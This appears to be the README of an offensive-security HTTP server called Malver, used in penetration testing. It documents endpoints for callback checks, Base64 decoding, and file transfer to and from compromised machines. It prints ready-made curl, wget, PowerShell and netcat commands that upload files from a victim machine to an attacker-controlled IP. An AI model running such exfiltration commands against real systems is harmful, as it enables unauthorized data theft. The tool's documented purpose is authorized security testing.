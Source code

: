 # Malver - **Mal**icious Ser**ver** for Pentesting & Bug Bounty

## Overview

Malver (**Mal**icious Ser**ver**) is a lightweight HTTP server designed to simplify common tasks in penetration testing and bug bounty hunting. It allows security researchers to efficiently decode Base64 data, validate blind vulnerabilities, and transfer files to and from a compromised system.



## Features

- Base64 Decoding – Quickly decode attacker-controlled data.
- File Transfer – Upload/download files in engagements.
- Blind Vulnerability Testing – Use `/` to validate SSRF, RCE, or command injection.
- Configurable – Customize endpoint paths and directories via CLI.
- Logging – Outputs structured logs for tracking interactions.
- Upload Command Generator – Automatically generate ready-to-use upload commands for upload feature.



## Endpoints

| Method | Endpoint | Description |
| ---- | ---- | ---- |
| GET | `/` | Used to validate blind vulnerabilities by sending a request.|
| GET | `/down/{filename}` | Downloads a file from the victim’s machine.|
| POST | `/up` | Uploads a file from the victim’s machine to the attacker's system.|
| GET | `/b64d?d=<encoded>` | Decodes Base64-encoded query data.|



## Installation

Ensure you have Go installed, then run:

```bash
go install github.com/omarelshopky/malver/cmd/malver@latest
```

This will install the malver binary in your Go bin directory.



## Usage

```bash
malver [-headers] [-port=3000] [-upload=./uploads] [-download=./downloads] [-ping-endpoint=/] [-down-endpoint=/down] [-up-endpoint=/up] [-b64d-endpoint=/b64d]
```



## Command-Line Flags

| Flag | Default | Description |
| ---- | ---- | ---- |
| `-headers` | `false` | Log request headers |
| `-port` | `3000` | Port to run the HTTP server on |
| `-upload` | `./uploads` | Directory for file uploads |
| `-download` | `./downloads` | Directory for file downloads |
| `-ping-endpoint` | `/` | Endpoint for ping |
| `-down-endpoint` | `/down/` | Endpoint for file downloads |
| `-up-endpoint` | `/up` | Endpoint for file uploads |
| `-b64d-endpoint` | `/b64d` | Endpoint for base64 decoding |
| `-upload-cmds` | `false` | Generate ready-to-use upload commands |
| `-ip` | `<ATTACKING_IP>` | Specify the attacker's IP address (used with -upload-commands) |
| `-file` | `<FILE_PATH>` | Specify the full path of the file to be uploaded (used with -upload-commands) |



## Example Use Cases

- Send a request to `/` and check if the target system can reach back.
- Extract and decode data sent from an exploited machine using `/b64d?q=<encoded>`
- Retrieving files from a compromised machine using `/down/{filename}` to download files.
- Upload a shell or tool using the `/up` endpoint. Use `-upload-commands` to generate pre-configured upload commands that can be executed on the victim machine using various built-in tools.




### Generating Upload Commands

To quickly generate ready-to-use upload commands, use:

```bash
malver -upload-commands -ip <ATTACKING_IP> -file <FILE_PATH>
```

Example output:

> cURL (Multipart Upload)

```bash
curl -X POST http://<ATTACKING_IP>:3000/up -F "file=@<FILE_PATH>"
```

> cURL (Raw Binary Upload)

```bash
curl -X POST --data-binary "@<FILE_PATH>" http://<ATTACKING_IP>:3000/up -H "Filename: <FILE_PATH>"
```

> wget

```bash
wget --method=POST --body-file=<FILE_PATH> --header="Filename: <FILE_PATH>" --header="Content-Type: application/octet-stream" "http://<ATTACKING_IP>:3000/up"
```

> Invoke-WebRequest (PowerShell)

```powershell
Invoke-WebRequest -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> Invoke-RestMethod (PowerShell)

```powershell
Invoke-RestMethod -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> netcat (nc)

```bash
(echo -en "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\nFilename: <FILE_PATH>\r\nContent-Type: application/octet-stream\r\n\r\n"; cat <FILE_PATH>) | nc <ATTACKING_IP> 3000
```



## Logging

All requests are logged in the following format:

```bash
<DATE> <TIME> <CLIENT_IP>:<CLIENT_PORT> "<METHOD> <ENDPOINT><QUERY_PARAMS> HTTP/<HTTP_VERSION>" <STATUS_CODE> - [<POST_DATA>] <ENDPOINT_SPECIFIC_MESSAGE>
```

This helps track interactions with the server, including query parameters, POST data, and decoded Base64 content.



## Disclaimer

Malver is intended for legal penetration testing and security research only. Unauthorized use of this tool against systems without explicit permission is illegal and unethical. The author is not responsible for any misuse.
